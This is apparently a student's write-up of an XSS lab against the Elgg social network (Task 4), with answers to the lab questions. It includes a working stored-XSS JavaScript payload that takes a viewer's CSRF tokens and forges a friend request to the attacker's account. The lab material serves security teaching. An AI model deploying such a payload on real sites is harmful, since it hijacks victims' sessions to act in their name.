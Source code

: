 ## Task 4: Becoming the Victim's Friend

**Objective:** Automatically send a friend request to the attacker's account when the victim views the attacker's profile.

**Steps:**
- Analyzed the HTTP request when adding a friend in Elgg using the browser's developer tools.
- Used the following JavaScript code in the attacker's profile to replicate this request.
```HTML
<script type="text/javascript">
        window.onload = function() {
        var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
        var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
        var sendurl = "http://www.xsslabelgg.com/action/friends/add?friend=44" + ts + token;
        var Ajax = new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
        Ajax.setRequestHeader("Keep-Alive", "300");
        Ajax.setRequestHeader("Connection", "keep-alive");
        Ajax.setRequestHeader("Cookie", document.cookie);
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send();
    }
</script>
```

![Script Injection](images/T4/injectjs.png)
*Script Injection*

![Automatically added as friend after visiting profile](images/T4/friend.png)
*Automatically added as friend after visiting profile*

**Observation:**  If someone visits the attacker's profile, it automatically triggers a friend request to the attacker's account from the victim's account.

### Questions

1. **Question 1:** Explain the purpose of Lines 1 and 2, why are they are needed?

    - The lines retrieve the security token and timestamp required for authenticated requests in the Elgg application.
2. **Question 2:** If the Elgg application only provides the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
    - If the Text mode is unavailable, it may be impossible to launch a successful attack, as the Editor mode can modify or strip out the injected JavaScript code.